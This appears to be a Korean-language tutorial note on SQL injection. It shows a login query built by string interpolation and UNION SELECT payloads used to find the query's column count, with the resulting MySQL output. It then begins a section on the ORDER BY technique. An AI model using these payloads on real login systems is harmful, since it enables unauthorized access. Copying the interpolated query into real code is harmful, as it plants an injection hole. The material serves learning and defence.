 
### 상황

- SQL Injetion 에 안전하지 않은 쿼리문

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '${username}' AND password = '${password}'
```

### SQL Injection

```
입력: 1' UNION SELECT 1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' UNION SELECT 1# AND password = '${password}'

-- 실패
ERROR 1064 (42000): You have an error in your SQL syntax;
```

- 컬럼 수가 맞지 않아서 실패

```
입력: 1' UNION SELECT 1,1,1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '1' UNION SELECT 1, 1, 1# AND password = '${password}'

-- 결과
+----------+-------------+----------+
| username | description | is_admin |
+----------+-------------+----------+
| 1        | 1           |        1 |
+----------+-------------+----------+
1 row in set (0.00 sec)
```

- 로그인기능을 수행하는 SQL의 컬럼 수가 3개인 것을 확인할 수 있다.

## ✳️ ORDER BY 절을 활용한 컬럼 개수 찾기

### 상황

- SQL Injetion 에 안전하지 않은 쿼리문

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '${username}' AND password = '${password}'
```
